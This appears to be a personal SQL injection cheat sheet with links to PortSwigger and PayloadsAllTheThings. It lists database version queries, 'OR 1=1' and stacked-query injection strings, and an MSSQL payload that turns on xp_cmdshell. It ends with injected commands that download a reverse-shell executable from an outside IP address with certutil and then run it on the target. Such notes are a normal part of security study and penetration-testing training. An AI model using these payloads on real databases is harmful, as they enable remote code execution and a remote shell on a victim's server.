 
https://portswigger.net/web-security/sql-injection/cheat-sheet
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md

Finding the SQL version:

Oracle           `SELECT banner FROM v$version   SELECT version FROM v$instance   `
Microsoft      `SELECT @@version`
PostgreSQL   `SELECT version()`
MySQL          `SELECT @@version`
SQLite           `SELECT sqlite_version()`

# Basics

`' OR 1=1 --` obs, not safe as all rows are returned/possibly updated

`something we know works' AND 1=1 --` safer alternative

# Union


# Stacked Queries

not available in all  systems

`' ; new query here; --`

# Stored procedures and functions

Procedures and functions within a  database  management system.

MSSQL has **xp_cmdshell** that might be used to execute os calls to get rce (remote code execution). (By using EXECUTE  / EXEC to run windows shell commands!!)

Disabled by default! Still common irl. New secure replacement fir example SSIS (SQL Server Integration Services).
Even when disabled, it can be enabled with an EXEC query if the user has the 'sysadmin' role or have the 'alter settings' server level permission.
`'; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --`

# Upload and execute exploit/rev shell

`'; EXEC xp_cmdshell 'certutil -urlcache -f http://10.18.21.236:8000/win64-reverse.exe C:\Windows\Temp\reverse.exe'; --`
`'; EXEC xp_cmdshell 'C:\Windows\Temp\reverse.exe'; --`


